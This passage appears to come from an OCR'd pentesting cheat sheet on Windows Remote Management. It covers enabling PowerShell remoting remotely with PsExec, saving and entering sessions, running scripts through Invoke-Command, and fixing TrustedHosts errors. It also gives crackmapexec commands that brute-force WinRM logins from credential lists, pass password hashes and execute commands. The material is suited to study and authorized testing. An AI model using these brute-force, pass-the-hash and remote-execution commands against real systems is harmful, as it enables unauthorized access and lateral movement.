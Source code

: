 ```
```bash
.\PsExec.exe \\computername -u domain\username -p password -h -d powershell.exe "enable-psremoting -force"
```
```
### Saving and Restoring sessions

This **won't work** if the the **language** is **constrained** in the remote computer.

```bash
#If you need to use different creds
$password=ConvertTo-SecureString 'Stud41Password@123' -Asplaintext -force
## Note the ".\" in the suername to indicate it's a local user (host domain)
$creds2=New-Object System.Management.Automation.PSCredential(".\student41", $password)

#You can save a session inside a variable
$sess1 = New-PSSession -ComputerName <computername> [-SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)]
#And restore it at any moment doing
Enter-PSSession -Session $sess1
```
```
Inside this sessions you can load PS scripts using _Invoke-Command_

```bash
Invoke-Command -FilePath C:\Path\to\script.ps1 -Session $sess1
```
```
### Errors

If you find the following error:

`enter-pssession : Connecting to remote server 10.10.10.175 failed with the following error message : The WinRM client cannot process the request. If the authentication scheme is different from Kerberos, or if the client computer is not joined to a domain, then HTTPS transport must be used or the destination machine must be added to the TrustedHosts configuration setting. Use winrm.cmd to configure TrustedHosts. Note that computers in the TrustedHosts list might not be authenticated. You can get more information about that by running the following command: winrm help config. For more information, see the about_Remote_Troubleshooting Help topic.`

The try on the client (info from [[https://serverfault.com/questions/657918/remote-ps-session-fails-on-non-domain-server)|here]]:

```ruby
winrm quickconfig
winrm set winrm/config/client '@{TrustedHosts="Computer1,Computer2"}'
```
```
## WinRM connection in linux

### Brute Force

Be careful, brute-forcing winrm could block users.

```ruby
#Brute force
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt

#Just check a pair of credentials
# Username + Password + CMD command execution
crackmapexec winrm <IP> -d <Domain Name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command execution
crackmapexec winrm <IP> -d <Domain Name> -u <username> -H <HASH> -X '$PSVersionTable'
#Crackmapexec won't give you an interactive shell, but it will check if the creds are valid to access winrm
```